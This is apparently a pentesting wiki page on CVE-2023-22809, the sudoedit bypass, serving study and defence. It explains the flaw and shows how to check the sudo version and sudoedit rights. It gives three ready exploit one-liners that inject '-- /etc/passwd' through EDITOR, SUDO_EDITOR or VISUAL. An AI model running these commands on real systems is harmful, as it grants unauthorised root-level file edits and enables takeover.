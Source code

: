 ```yaml
---
description: CVE-2023-22809
---
```


# Sudoedit Bypass

## Theory

Sudo uses user-provided environment variables to let its users select their editor of choice. The content of these variables extends the actual command passed to the sudo\_edit() function. However, the latter relies on the presence of the `--` argument to determine the list of files to edit. The injection of an extra `--` argument in one of the authorized environment variables can alter this list and lead to privilege escalation by editing any other file with privileges of the RunAs user. This issue occurs after the sudoers policy validation. - [Synacktiv](https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf)

The vulnerability affect sudo versions **1.8.0** to **1.9.12p1**.

## Practice

{% tabs %}
{% tab title="Enumerate" %}
To exploit, sudo version must be vulnerable (**1.8.0** to **1.9.12p1**)

```bash
$ sudo -V
Sudo version 1.8.0
```

You must be able to run sudoedit with sudo

```bash
$ sudo -l
[sudo] password for user:
Matching Defaults entries for user on vulnserver:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User user may run the following commands on vulnserver:
    (ALL:ALL) sudoedit /etc/custom/service.conf
```

And env\_delete shouldn't be set to affected variables:

```bash
env_delete+="SUDO_EDITOR VISUAL EDITOR"
```
{% endtab %}

{% tab title="Exploit" %}
To exploit it, we may use one of the following commands:

```bash
EDITOR='vim -- /etc/passwd' sudoedit /etc/custom/service.conf

SUDO_EDITOR='vim -- /etc/passwd' sudoedit /etc/custom/service.conf

VISUAL='vim -- /etc/passwd' sudoedit /etc/custom/service.conf
```
{% endtab %}
{% endtabs %}

### References

{% embed url="https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf" %}
